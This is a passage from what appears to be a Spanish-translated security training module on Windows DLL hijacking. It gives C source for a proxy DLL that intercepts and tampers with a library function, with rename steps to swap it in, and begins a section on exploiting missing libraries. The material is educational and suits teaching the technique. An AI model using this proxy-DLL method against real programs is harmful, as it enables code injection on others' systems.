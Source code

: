 El código es el siguiente:

Código:do

```c
// tamper.c
#include <stdio.h>
#include <Windows.h>

#ifdef _WIN32
#define DLL_EXPORT __declspec(dllexport)
#else
#define DLL_EXPORT
#endif

typedef int (*AddFunc)(int, int);

DLL_EXPORT int Add(int a, int b)
{
    // Load the original library containing the Add function
    HMODULE originalLibrary = LoadLibraryA("library.o.dll");
    if (originalLibrary != NULL)
    {
        // Get the address of the original Add function from the library
        AddFunc originalAdd = (AddFunc)GetProcAddress(originalLibrary, "Add");
        if (originalAdd != NULL)
        {
            printf("============ HIJACKED ============\n");
            // Call the original Add function with the provided arguments
            int result = originalAdd(a, b);
            // Tamper with the result by adding +1
            printf("= Adding 1 to the sum to be evil\n");
            result += 1;
            printf("============ RETURN ============\n");
            // Return the tampered result
            return result;
        }
    }
    // Return -1 if the original library or function cannot be loaded
    return -1;
}
```

Compile o use la versión precompilada proporcionada. Rebautizar`library.dll`a`library.o.dll`y cambiar el nombre`tamper.dll`a`library.dll`.

Correr`main.exe`Luego muestra el truco exitoso.

![Command prompt showing a program that adds two numbers. Input: 1 and 1. Output: 'HIJACKED' message, adding 1 to the sum, resulting in 3 instead of 2.](https://academy.hackthebox.com/storage/modules/67/proxy.png)

### Bibliotecas no válidas

Otra opción para ejecutar un ataque de secuestro DLL es reemplazar una biblioteca válida que el programa intenta cargar pero no puede encontrar con una biblioteca diseñada. Si cambiamos el filtro Procmon para centrarnos en entradas cuyo camino termina en`.dll`y tiene un estado de`NAME NOT FOUND`Podemos encontrar tales bibliotecas en`main.exe`.
